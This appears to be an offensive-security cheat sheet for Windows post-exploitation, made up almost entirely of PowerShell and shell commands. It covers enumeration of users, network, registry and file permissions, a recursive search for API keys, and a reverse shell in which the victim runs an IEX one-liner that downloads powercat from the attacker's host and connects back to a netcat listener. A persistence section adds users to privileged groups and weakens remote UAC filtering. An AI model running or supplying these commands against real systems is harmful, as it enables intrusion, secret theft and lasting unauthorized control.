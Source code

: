# Enumeration

The first step when you have gained initial access to any machine would be to enumerate. We'll be enumerating the following:
## users:
```
Get-LocalUser
(Get-LocalUser).Name
(Get-LocalUser).Name.Count
Get-LocalUser -SID "sid_value"
Get-LocalUser | Where-Object -Property PasswordRequired -Match false
Get-LocalGroup | measure
```
## basic networking information:
```
Get-NetIPAddress
Get-NetTCPConnection | Where-Object -Property State -Match Listen | measure
get-nettcpconnection | where {$_.state -eq "listen" -and $_.localport -eq 445}
Get-NetRoute
Get-NetAdapter -Name * -IncludeHidden
Get-NetAdapter -Name * -Physical
netstat -an | findstr LISTENING | sort
```
## file permissions:
```
Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
Get-Acl C:\ | Format-List
Get-ChildItem C:\ -Recurse | Get-Acl | Select-Object PSChildName, AccessToString | Format-List
```
## registry permissions:
```
Get-Acl "HKLM:\Software" | Format-List
Get-Hotfix
Get-Hotfix -Id KB4023834
```
## scheduled and running tasks:
```
Get-Process
Get-ScheduledTask -TaskName * | Format-List
Get-ScheduledTask | Where-Object {$_.State -eq "Running"}
get-scheduledtask | where {$_.taskname -eq "new-sched-task"}
Get-Process -Id (Get-NetTCPConnection -LocalPort YourPortNumberHere).OwningProcess
Get-Process -Id (Get-NetUDPEndpoint -LocalPort YourPortNumberHere).OwningProcess
```
## insecure files:
```
Get-ChildItem -Recurse C:\ | Get-Acl | Where-Object {($_.AccessToString -match "Everyone") -and ($_.AccessToString -match "FullControl")}
Get-ChildItem -Hidden -Path
```
## History
```
(Get-PSReadlineOption).HistorySavePath
```
 
# Reverse Shell

## Attacker's Machine:
```
git clone https://github.com/besimorhino/powercat && cd powercat
python3 -m http.server 8080
nc -lvnp 1337
```
## Victim's Machine:
- Execution Policy:
```
Get-ExecutionPolicy
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
- Download and execute payload:
```
IEX(New-Object System.Net.WebClient).DownloadString('http://[Attacker's IP]:8080/powercat.ps1'); powercat -c [Attacker's IP] -p 1337 -ep
```

# Windows Privilege Escalation

# Windows Local Persistence

```
net localgroup administrators username /add
net localgroup "Backup Operators" username /add
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

